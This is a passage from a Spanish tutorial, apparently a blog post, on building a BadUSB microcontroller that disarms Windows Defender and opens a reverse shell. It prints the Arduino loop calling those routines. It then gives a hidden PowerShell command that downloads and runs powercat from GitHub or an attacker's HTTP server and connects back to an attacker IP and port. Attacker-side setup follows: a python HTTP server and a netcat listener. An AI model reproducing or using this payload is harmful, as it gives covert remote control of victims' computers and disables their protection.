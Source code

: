 Lo que resta para terminar el programa es añadir el método `loop()`. Este método se encargará de lanzar las funciones definidas anteriormente y cuando termine apagará y encenderá el LED del microcontrolador.

```cpp
void loop() {
  DigiKeyboard.sendKeyStroke(0);
  
  disarm_defender();
  create_reverse_shell();
  
  while (true){
      digitalWrite(1, HIGH);
      delay(300);
      digitalWrite(1, LOW);
      delay(300);
  }
}
``` 

Os dejo el código en [mi perfil de Github](https://github.com/404a10/reverse-shell-arduino).

Flasheamos el código al microcontrolador y preparamos el lado del atacante.

### Si sabemos que el objetivo no tiene conexión a Internet
Nos descargaremos el archivo de powercat a un directorio y desde ahí montaremos un servidor HTTP en el que serviremos el archivo para que la víctima pueda descargarlo para posteriormente ejecutarlo. Necesitaríamos tener instalado `python3`.
Navegas al directorio en el que esté el archivo y servirlo usando 
```bash
python3 -m  http.server 80
```
**Recordatorio:**<br>
Para que esto funcione deberás de cambiar la parte del programa que se encarga de ejecutar el snippet en powershell para que descargue powercat desde el servidor HTTP.
Cambiamos de esto:
```powershell
DigiKeyboard.print("PowerShell.exe -WindowStyle hidden {powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c (IP) -p (PUERTO) -e powershell\"}");
```
A esto:
```powershell
DigiKeyboard.print("PowerShell.exe -WindowStyle hidden {powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://(IP)/powercat.ps1');powercat -c (IP) -p (PUERTO) -e powershell\"}");
```

### Esperar a la conexión
Como ya sabrás, el atacante debe esperar la conexión del cliente, para esperar la conexión que generará la máquina víctima al conectarse el microcontrolador.

Podemos esperar la conexión del atacante usando herramientas como `netcat` y `metasploit`. Para esperar a conexiones entrantes en `netcat` podríamos hacerlo de esta manera:
```bash
nc -lvp (PUERTO)
```
El parámetro -l sirve para esperar a conexiones entrantes, -v es para activar la verbosa y poder ver más información en la pantalla mientras que -p sirve para especificar el puerto en el que estamos escuchando.
